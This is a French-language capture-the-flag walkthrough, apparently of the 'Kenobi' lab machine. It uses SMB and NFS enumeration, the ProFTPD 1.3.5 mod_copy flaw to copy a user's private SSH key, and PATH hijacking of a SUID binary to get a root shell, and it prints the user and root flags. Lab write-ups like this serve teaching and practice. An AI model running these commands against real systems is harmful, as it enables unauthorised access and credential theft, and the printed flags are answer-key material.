






## 1. Énumération et Reconnaissance

La première étape consiste à identifier les services actifs sur la machine cible.

```
nmap -sC -sV 10.128.172.112
```



Nous découvrons plusieurs services : SSH, HTTP (Apache), un port RPC/NFS (111/2049) et Samba (SMB). L'énumération HTTP ne révèle rien de critique via gobuster, hormis la présence d'un /admin.html.

## 2. Exploitation de Samba (SMB)

Nous listons les partages disponibles via SMB :

```
smbclient -L //10.128.172.112 -N
```

Le partage anonymous est accessible. Nous nous y connectons :

```
smbclient //10.128.172.112/anonymous -N
```

En téléchargeant le fichier log.txt, nous découvrons une configuration ProFTPD et des informations sur la génération d'une clé SSH pour l'utilisateur kenobi.

## 3. Exploitation de NFS

Le scan révèle un service NFS. Nous vérifions les partages exportés :

code Bash

```
showmount -e 10.128.172.112
```



Le dossier /var est exporté. Nous le montons sur notre machine Kali pour accéder au système de fichiers cible :

code Bash

```
mkdir /tmp/kenobi_nfs
sudo mount 10.128.172.112:/var /tmp/kenobi_nfs
```

## 4. Exploitation de ProFTPD (mod_copy)

En analysant la version de ProFTPD (1.3.5), nous identifions une vulnérabilité liée au module mod_copy qui permet de copier des fichiers sans authentification.

1. Nous utilisons nc pour nous connecter au port 21.
    
2. Nous copions la clé SSH de kenobi vers le répertoire /var/tmp (accessible via notre montage NFS) :
    
    code Bash
    
    ```
    SITE CPFR /home/kenobi/.ssh/id_rsa
    SITE CPTO /var/tmp/id_rsa
    ```
    
3. Nous récupérons la clé sur notre machine Kali :
    
    code Bash
    
    ```
    cp /tmp/kenobi_nfs/tmp/id_rsa ~/id_rsa_kenobi
    chmod 600 ~/id_rsa_kenobi
    ```
    



## 5. Accès Système (User Flag)

Connexion via SSH :

code Bash

```
ssh -i ~/id_rsa_kenobi kenobi@10.128.172.112
```

- **Flag User :** **d0b0f3f53b6caa532a83915e19224899**
    

---

## 6. Escalade de Privilèges (Root)

### Analyse des permissions SUID

code Bash

```
find / -perm -4000 2>/dev/null
```

Le binaire /usr/bin/menu possède le bit SUID, ce qui signifie qu'il s'exécute avec les droits de root.



Lorsqu'on l'exécute, le programme propose trois options. Il appelle des commandes système sans utiliser de chemin absolu (ex: uname au lieu de /usr/bin/uname).



### Concept : PATH Hijacking

L'attaque consiste à créer un faux exécutable nommé uname dans /tmp et à modifier la variable $PATH pour que le système utilise notre script à la place de la commande réelle.

1. **Création du faux binaire :**
    
    code Bash
    
    ```
    echo "/bin/sh" > /tmp/uname
    chmod 777 /tmp/uname
    ```
    
2. **Détournement du PATH :**
    
    code Bash
    
    ```
    export PATH=/tmp:$PATH
    ```
    
3. **Exécution :**  
    En lançant /usr/bin/menu et en choisissant l'option 2, le binaire exécute notre /tmp/uname avec les privilèges root.
    



- **Flag Root :** **177b3cd8562289f37382721c28381f02**
